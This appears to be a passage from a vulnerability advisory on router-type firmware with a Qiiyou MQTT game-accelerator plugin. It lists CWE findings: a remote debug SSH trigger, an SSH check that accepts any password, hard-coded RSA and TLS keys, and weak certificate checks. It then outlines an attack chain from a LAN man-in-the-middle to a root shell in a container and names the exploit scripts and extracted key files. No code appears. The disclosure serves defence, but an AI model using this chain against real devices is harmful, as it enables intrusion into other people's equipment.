| ----------------------------------------------------- | ------------------------------------------------------------ |
| CWE-306: Missing Authentication for Critical Function | The rdbg control path enables a remote debug SSH service without device-local user authorization. |
| CWE-287: Improper Authentication                      | The embedded SSH password callback accepts arbitrary passwords. |
| CWE-321: Use of Hard-coded Cryptographic Key          | The `rlg` RSA private key matching the challenge public key is embedded in the firmware. |
| CWE-798: Use of Hard-coded Credentials                | Firmware-contained TLS/client key material enables broker impersonation in the verified MITM setup. |
| CWE-295: Improper Certificate Validation              | Hostname/server identity checking is weakened; self-signed certificates were rejected, so this should be stated narrowly. |

## Impact

An attacker who can perform a LAN MITM against the Qiiyou MQTT broker connection and has extracted the firmware TLS/key material can remotely trigger the debug SSH service and obtain a root shell inside the `game_accelerator` container/network namespace. This does not require the web UI password, DS `stok`, or prior web authentication.

The currently proven impact is:

```text
Pre-auth LAN MITM -> Qiiyou MQTT rdbg -> arbitrary-password SSH -> rlg private-key challenge bypass -> root shell in game_accelerator container
```

Host namespace root compromise has not yet been proven. Further analysis should focus on the container's capabilities, bind mounts, `lxcctl`/`crun` control surface, and host IPC exposed into the plugin namespace.

The key proof artifacts generated during analysis were:

```text
./rlg_challenge_rsa_public.pem
./rlg_challenge_rsa_private.pem
./qy_mqtt_rdbg_broker.py
./qy_rlg_response.py
```
